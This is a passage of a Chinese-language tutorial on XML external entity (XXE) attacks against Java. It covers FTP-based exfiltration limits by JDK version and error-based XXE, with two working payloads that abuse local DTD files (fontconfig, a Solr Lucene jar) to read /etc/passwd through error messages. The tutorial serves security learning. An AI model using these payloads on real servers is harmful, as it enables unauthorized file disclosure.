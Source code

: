 启动`ruby ftp.rb`，然后ftp打，接收到多行数据：

![image-20220308193144888](Java中的XXE.assets/image-20220308193144888.png)



但是从似乎是8u162开始ftp修复了，导致ftp也带不出来带换行的数据了。

所以用ftp能带出数据的版本是jdk<7u141和jdk<8u162

## Error Based XXE

在高版本Java且需要盲注的情况下，唯一的解决办法就是Error Based XXE，前期是服务器开启了报错。



总的来说有三种方法：

1. 利用操作系统上已有的dtd文件。比如Docker官方openjdk镜像，其安装了fontconfig-config这个包，这个包就包含一个dtd文件/usr/share/xml/fontconfig/fonts.dtd：
   ```xml
   <?xml version="1.0" ?>
   <!DOCTYPE message [
       <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
   
       <!ENTITY % expr 'aaa)>
           <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
           <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
           &#x25;eval;
           &#x25;error;
           <!ELEMENT aa (bb'>
   
       %local_dtd;
   ]>
   <message>any text</message>
   ```

   

2. 利用应用内部的dtd文件。比如比如Solr依赖的lucene-queryparser.jar中包含的LuceneCoreQuery.dtd：
   ```xml
   <?xml version="1.0" ?>
   <!DOCTYPE message [
       <!ENTITY % local_dtd SYSTEM "jar:file:///opt/solr/server/solr-webapp/webapp/WEB-INF/lib/lucene-queryparser-7.0.1.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd">
   
       <!ENTITY % queries 'aaa)>
           <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
           <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
           &#x25;eval;
           &#x25;error;
           <!ELEMENT aa (bb'>
   
       %local_dtd;
   ]>
   <message>any text</message>
   ```
